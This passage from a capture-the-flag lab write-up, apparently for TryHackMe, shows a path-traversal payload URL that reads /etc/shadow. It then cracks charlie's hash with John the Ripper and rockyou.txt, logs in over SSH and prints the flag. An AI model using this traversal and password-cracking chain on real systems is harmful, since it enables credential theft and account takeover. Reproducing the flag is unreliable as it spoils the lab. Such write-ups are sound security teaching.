 ### 2 - Read /etc/shadow and crack Charlies password.
If we view the HTML source of this page we notice the following funciton towards the bottom of the source page:

```HTML
<script>
  function getNote(note, id) {
    const url = '/get-file/' + note.replace(/\//g, '%2f')
    $.getJSON(url,  function(data) {
      document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
    })
  }
  // getNote('server.js', '#note-1')
  getNote('views/notes/note1.txt', '#note-1')
  getNote('views/notes/note2.txt', '#note-2')
  getNote('views/notes/note3.txt', '#note-3')
</script>
```

From this we can see that the application is including files from the endpoint `/get-file/` and is appending onto it `views/notes/note1.txt` to get the local `note2=1.txt` file. We also see that it is replacing the `/` character with `%2f` to URL encode for the web server. using this to our knowledge, we can leak the `/etc/shadow` file with the following payload:

```
http://10.10.60.41/get-file/views%2fnotes%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow
```

Doing that gives us the `/etc/shadow` file:

![shadow](https://user-images.githubusercontent.com/32188816/82849925-6e99d300-9eb7-11ea-89fa-f46b663e886f.png)

Throwing this hash into a file for JtR and using the `rockyou.txt` wordlists gives us the password:

```bash
jeffrowell@kali:~/Documents/eCPPT/Network_Security/Information Gathering/elsfoo_lab$ /opt/JohnTheRipper/run/john forjohn --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (charlie)
1g 0:00:00:01 DONE (2020-05-25 18:40) 0.7092g/s 726.2p/s 726.2c/s 726.2C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### 3 - What is flag1.txt?
Now we can SSH to the box using `charlie`'s cracked password and get the flag:

```bash
charlie@ip-10-10-60-41:~$ ls
flag1.txt
charlie@ip-10-10-60-41:~$ cat flag1.txt
THM{4ea2adf842713ad3ce0c1f05ef12256d}
```

